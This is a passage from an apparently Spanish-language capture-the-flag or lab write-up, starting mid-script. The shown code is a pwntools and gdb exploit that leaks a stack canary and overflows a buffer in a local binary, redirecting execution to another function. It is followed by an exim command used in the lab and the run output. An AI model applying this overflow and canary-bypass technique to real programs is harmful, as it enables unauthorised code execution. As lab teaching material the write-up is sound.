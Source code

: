 ```python
	# Creación de otro punto de interrupción para comprobar la inyeccion del payload
    gdb_process.sendline("disas factor2")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_breakpoint = gdb_process.before.decode('utf-8')
    lines = address_breakpoint.splitlines()
    memory_addresses_breakpoint = [line.split()[0] for line in lines if '<+' in line]
    if len(memory_addresses_breakpoint) >= 20:
       memory_address_bp = memory_addresses_breakpoint[19]
       gdb_process.sendline(" ")
       gdb_process.expect("(gdb)")
       gdb_process.sendline(f"break *{memory_address_bp}")
       gdb_process.expect("(gdb)")
       gdb_process.sendline("continue")
    else:
       print("No hay suficientes direcciones de memoria en la salida")

    # construccion del payload
    buffer_size = 72 # offset before overwriting the canary
    buffer_fil = b'S' *buffer_size
    padding = b'A' *8 # padding to align the stack
    #rip = b'P' *8

    payload = flat(
    buffer_fil,
    output_canary_le,
    padding,
    address_factor1_le
    )
    # envio del payload
    gdb_process.expect("Introduce tu nombre: ")
    gdb_process.sendline(payload)
    gdb_process.interact()
    gdb_process.send(b"quit")
    gdb_process.close()

if __name__ == '__main__':
    atack() 
EOF
```

Ahora solicitamos los permisos para ejecutarlo:
```bash
echo "Nombre del solicitante: pedro; Fecha:21/05/25; mensaje:Solicitud de Permisos; Breve descripcion:000-0923" | /usr/sbin/exim root@cybersec
```

Ejecutamos el exploit:
```python3
 python3 exploit.py 
[*] '/home/pedro/hallx'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS^@'���c|4AAAAAAAA�rUUUU^@^@

Breakpoint 3, 0x0000555555557659 in factor2 ()
(gdb) 
```
